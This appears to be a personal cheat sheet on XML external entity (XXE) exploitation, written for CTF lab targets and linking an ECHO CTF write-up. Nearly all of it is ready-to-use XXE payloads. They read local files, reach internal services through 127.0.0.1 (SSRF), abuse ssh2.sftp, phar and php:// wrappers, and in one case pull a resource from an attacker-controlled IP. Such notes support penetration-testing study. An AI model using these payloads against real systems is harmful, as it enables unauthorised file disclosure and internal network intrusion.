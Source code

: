 ### Headers:

```bash
POST /action HTTP/1.0
Content-Type: text/xml
```

#### File Reading
While exploring an XXE it is important to use the tags provided by the application, in this scenario, the entity &xxe is being called as part of the tags from user:

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

#### SSRF attacks
Sometimes a local IP address is in place so it is important to use the localhost IP address to get access to the internal resources on the victim machine:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "http://127.0.0.1/2ndGrade/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

##### SSH2.EXEC, SSH2.SHELL, SSH2.SFTP, SSH2.TUNNEL, SS2.SCP
There is a possibility that ssh is enabled as a wrapper while testing an XXE, for that reason is important to test such payloads that can retrieve files within the system:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "ssh2.sftp://3rdgrader:3rdgrader@127.0.0.1/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

##### PHAR
Use of phar allows to set an specific path to read the content:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "phar://tmp/ETSCTF-10.10.1.250.tar/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

##### Custom Wrappers
Sometimes we can identify that there are some custom wrappers within the XXE, a good idea is to do a fuzz with them in order to review if there is any:

Example 1:
```http

<?xml version="1.0" encoding="ISO-8859-1"?> 

<!DOCTYPE foo [ <!ELEMENT foo ANY > 

<!ENTITY xxe SYSTEM "php://fd/375" >]> 

<creds> 

	<user>&xxe;</user> 
	
	<pass>mypass</pass> 
	
</creds>
```

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "php://temp" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>

```
Examples:
[ECHO CTF elementary](https://echoctf.red/target/21/writeup/read/4)

### External Entities
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3/pwned.js" > ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
Examples:
[[Fulcrum#^c2e4bb]]

Reference: [Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)
